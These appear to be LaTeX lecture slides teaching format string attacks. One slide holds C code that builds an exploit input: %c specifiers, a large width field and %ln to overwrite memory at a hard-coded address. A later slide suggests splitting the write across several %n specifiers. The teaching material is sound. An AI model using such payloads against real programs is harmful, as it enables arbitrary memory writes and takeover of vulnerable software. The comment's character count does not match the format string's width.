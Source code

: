 \begin{frame}[fragile,label=formatExample]{format string overwrite: setup}
\lstset{
    language=C,
    style=smaller,
}
\begin{lstlisting}
    /* advance through 5 registers, then
     * 5 * 8 = 40 bytes down stack, outputting
     * 4916157 + 9 characters before using 
     * %ln to store a long.
     */
    fputs("%c%c%c%c%c%c%c%c%c%.4196157u%ln", stdout);
    /* include 5 bytes of padding to make current location
     * in buffer match where on the stack printf will be reading.
     */
    fputs("?????", stdout);
    void *ptr = (void*) 0x601038;
    /* write pointer value, which will include \0s */
    fwrite(&ptr, 1, sizeof(ptr), stdout);
    fputs("\n", stdout);
\end{lstlisting}
\end{frame}

\begin{frame}{demo}
\end{frame}

\begin{frame}{demo}
    \begin{itemize}
        \item but millions of characters of junk output?
        \item can do better --- write value in multiple pieces
            \begin{itemize}
            \item use multiple \%n
            \end{itemize}
    \end{itemize}
\end{frame}
    

